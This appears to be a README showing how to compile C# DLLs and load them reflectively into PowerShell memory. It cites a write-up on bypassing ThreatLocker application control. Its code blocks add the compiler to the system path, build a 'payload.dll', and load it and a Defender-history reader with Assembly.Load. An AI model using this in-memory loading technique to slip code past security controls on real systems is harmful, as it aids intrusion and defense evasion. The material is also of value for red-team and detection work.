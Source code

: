 # Refletively load C# DLLs via PowerShell  

Based on https://ruptura-infosec.com/hack-of-the-month/bypassing-threatlocker-with-powershell/  

Add C Sharp Compiler to path
```powershell  
[System.Environment]::SetEnvironmentVariable("Path", $env:Path + ";C:\Program Files (x86)\Microsoft Visual Studio\2019\BuildTools\MSBuild\Current\Bin\Roslyn\", [System.EnvironmentVariableTarget]::Machine)
```  

Compile DLL from .cs    
```powershell  
csc /target:library /out:payload.dll test.cs
csc /target:library /out:get-sec-history.dll get-sec-history.cs
```  

Load DLL reflectively in PowerShell POC
```powershell  
$currentDir = Get-Location
$bytes = [IO.File]::ReadAllBytes("$currentDir\payload.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$instance = $assembly.CreateInstance("ProgramNamespace.Program")
$instance.RunO()
```  

Load Dll method 1 (Invoke Method)  
```powershell  
# Get the current directory
$currentDir = Get-Location

# Load the DLL into memory
$bytes = [IO.File]::ReadAllBytes("$currentDir\get-sec-history.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of the DefenderHistory class
$type = $assembly.GetType("SecurityTools.DefenderHistory")

# Invoke the static method GetProtectionHistory and display the output
$output = $type.GetMethod("GetProtectionHistory").Invoke($null, $null)
Write-Output $output

```  

Load DLL method 2 (Create Instance Method)  
```powershell  
# Get the current directory
$currentDir = Get-Location

# Load the DLL from the current directory
$bytes = [IO.File]::ReadAllBytes("$currentDir\get-sec-history.dll")
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Create an instance of DefenderHistory class and invoke the method
$instance = $assembly.CreateInstance("SecurityTools.DefenderHistory")
$output = $instance.GetProtectionHistory()
Write-Output $output
```  


